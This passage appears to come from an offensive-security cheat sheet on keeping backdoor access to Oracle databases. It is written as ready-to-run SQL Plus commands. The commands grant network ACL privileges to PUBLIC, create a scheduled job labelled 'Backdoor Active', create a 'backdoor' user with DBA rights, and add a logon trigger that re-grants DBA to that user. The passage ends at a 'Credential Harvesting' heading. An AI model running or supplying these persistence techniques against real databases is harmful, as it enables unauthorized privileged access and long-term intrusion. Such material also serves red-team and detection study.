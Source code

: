     ```sql
    EXEC DBMS_NETWORK_ACL_ADMIN.ADD_PRIVILEGE('acl.xml', 'PUBLIC', TRUE, 'connect');
    ```
* **Description:** Modify listener configurations to allow persistent backdoor access, enabling repeated unauthorized connections.

#### Leveraging Oracle Jobs for Persistence

*   **Tool:** \[\[SQL Plus]]

    ```sql
    BEGIN
      DBMS_SCHEDULER.create_job (
        job_name => 'persistent_job',
        job_type => 'PLSQL_BLOCK',
        job_action => 'BEGIN DBMS_OUTPUT.put_line(''Backdoor Active''); END;',
        start_date => SYSTIMESTAMP,
        repeat_interval => 'FREQ=MINUTELY;INTERVAL=1',
        enabled => TRUE
      );
    END;
    /
    ```
* **Description:** Create a persistent job that runs periodically within the Oracle database.

#### Create a SQL User Account

*   **Tool:** \[\[SQL Plus]]

    ```sql
    CREATE USER backdoor IDENTIFIED BY <password>;
    GRANT DBA TO backdoor;
    ```
* **Description:** Creates a new user with DBA privileges for persistent access to the database.

#### Trigger-Based Persistence

*   **Tool:** \[\[SQL Plus]]

    ```sql
    CREATE OR REPLACE TRIGGER backdoor_trigger
    AFTER LOGON ON DATABASE
    BEGIN
      EXECUTE IMMEDIATE 'GRANT DBA TO backdoor';
    END;
    ```
* **Description:** Creates a trigger that automatically re-grants DBA privileges to a backdoor user upon login.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]
